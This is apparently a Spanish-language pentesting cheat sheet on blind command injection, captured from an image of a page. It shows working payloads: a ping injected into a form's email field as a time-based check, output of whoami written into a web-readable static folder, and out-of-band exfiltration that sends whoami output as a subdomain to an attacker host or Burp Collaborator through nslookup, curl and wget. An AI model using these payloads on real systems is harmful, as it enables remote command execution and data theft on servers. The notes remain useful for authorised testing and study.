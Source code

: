 ```bash
ping -c 10 127.0.0.1
```

- si el servidor tarda 10 segundos en responder, es un ataque a ciegas.

ejemplo:

```bash
csrf=g5NUgT4PzqnmlUQiMNqHvYusebZhwhRS&name=test&email=test%40test.com||whoami||&subject=subject&message=message #injeccion en el mail, esta poc no devuelve error ni respuesta

#reemplamos el comando y este tarda 10 segundos en no mostrar error ni respuesta
csrf=g5NUgT4PzqnmlUQiMNqHvYusebZhwhRS&name=test&email=test%40test.com||ping+-c+10+127.0.0.1||&subject=subject&message=message
```

### BLIND COMMAND INJECTION REDIRECT OUTPUT

otra forma de validar una injeccion a ciegas es mediante la redireccion del output del comando a un fichero, si la pagina web ofrece recursos estaticos `/static`, `/assets`, `/js` o `css` se puede asumir que puede estar en la ruta `/var/www` o `/var/www/html`.

**Requisito: tener permisos de escritura en el directorio y poder verlo desde el navegador.**

```bash
& whoami > /var/www/static/whoami.txt &
; whoami > /var/www/static/whoami.txt ;
|| whoami > /var/www/static/whoami.txt ||
```

ahora para validar:
- podemos ver el directorio donde se cargo
- podemos reemplazar la carga de una imagen con la ruta del archivo
- podemos ver si en alguna peticion se llama a un archivo de esa carpeta

Si alguna de esas opciones se cumple, podemos validar si se guardo correctamente el archivo.

### BLIND COMMAND INJECTION OUTBAND DATA EXFILTRATION

podemos usar burp collaborator o un servidor web de python pero con una IP publica para validar esto. Otra forma de valir un command injection a ciegas es ejecutar un comando que consulte una tercera parte y para exfiltrar datos podemos poner el comando como un subdominio:

```bash
#revisar logs de DNS
nslookup `whoami`.<ip_KALI>
nslookup `whoami`.j9t8ietm6bbi9cy69kedpiwtskyamz.burpcollaborator.net

#revisar logs web
curl `whoami`.<ip_KALI>
curl `whoami`.j9t8ietm6bbi9cy69kedpiwtskyamz.burpcollaborator.net

wget `whoami`.<ip_KALI>
wget `whoami`.j9t8ietm6bbi9cy69kedpiwtskyamz.burpcollaborator.net
```

